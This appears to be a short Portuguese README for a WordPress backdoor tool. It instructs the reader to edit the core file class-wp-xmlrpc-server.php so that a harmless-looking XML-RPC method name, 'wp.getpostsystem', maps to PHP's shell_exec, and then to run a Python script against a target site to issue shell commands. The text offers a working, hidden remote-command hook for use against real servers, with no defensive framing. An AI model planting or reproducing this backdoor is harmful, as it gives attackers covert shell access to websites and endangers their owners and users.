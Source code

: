 # Wordpress-RPC-Backdoor
XML-RPC Backdoor - WP

- Foi escrito para executar utiliando comandos padrões do linux, pode ser facilmente adaptavel para o seu ambiente windows!


- implantar o backdoor:

- edite o arquivo "wp-includes/class-wp-xmlrpc-server.php" no core do wp.
- adicione no array $this->methods o seguinte registro:
  ```
  'wp.getpostsystem' => 'shell_exec',
  ```
  
- execute o python:

```
python rpc.py http://target.com
```



